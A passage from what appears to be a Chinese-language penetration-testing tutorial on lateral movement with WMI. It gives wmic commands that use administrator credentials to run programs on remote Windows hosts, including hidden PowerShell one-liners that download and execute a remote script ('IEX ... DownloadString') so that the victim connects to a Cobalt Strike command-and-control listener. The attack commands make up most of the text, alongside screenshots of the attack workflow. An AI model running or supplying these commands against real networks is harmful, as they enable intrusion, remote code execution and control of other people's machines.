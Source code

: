 ### <a class="reference-link" name="%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8"></a>横向移动

> ***注意**：分析完信息后，根据已掌握的信息开始横向移动，无论您作何考虑，都需要利用到工具来进行操作，工具可以帮助您无需理解或多或少的知识，您只需读懂README即可，来帮助您获取shell，上传，下载，创建服务等操作，笔者会在此段中罗列部分WMI的工具以及部分命令用作横向移动，并在第三段给出部分实际利用的意见。*
**<a class="reference-link" name="wmic%E8%B0%83%E7%94%A8cmd"></a>wmic调用cmd*****注意**：以下命令需要管理员权限。*

```
###向指定IP执行cmd命令
wmic /node:10.10.0.10 /user:administrator /password:win@123 process call create "cmd.exe /c ipconfig &gt;c:\ip.txt"
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f2899500041cca1f.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t018011b6f26728c9c1.png)

**<a class="reference-link" name="wmic%E4%B8%8A%E7%BA%BFCS"></a>wmic上线CS**

> ***注意**：请注意powershell对于特殊字符的转义，例如“，@，#，$等等。*
- Scripted Web Delivery
```
wmic /NODE:192.168.8.180 /user:"administrator" /password:"win@123" PROCESS call create "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx:8881/a'))\""
```

选择攻击模块

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0126205a18564ff15a.png)

设置C2的Host以及监听器

[![](https://p1.ssl.qhimg.com/t01ac0cf7af0292ef3d.png)](https://p1.ssl.qhimg.com/t01ac0cf7af0292ef3d.png)

在客户机上执行wmic命令，让指定的主机上线CS

[![](https://p4.ssl.qhimg.com/t01c58225b04aad38c6.png)](https://p4.ssl.qhimg.com/t01c58225b04aad38c6.png)
- payload generator
> ***注意**：测试下载时，可以自行使用Python开启WEB共享服务。*

```
wmic /NODE:192.168.8.179 /user:"administrator" /password:"Aatest" PROCESS call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('http://192.168.8.191:8000/payload.ps1');\""
```

选择攻击模块

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0186c9e885e64b0123.png)
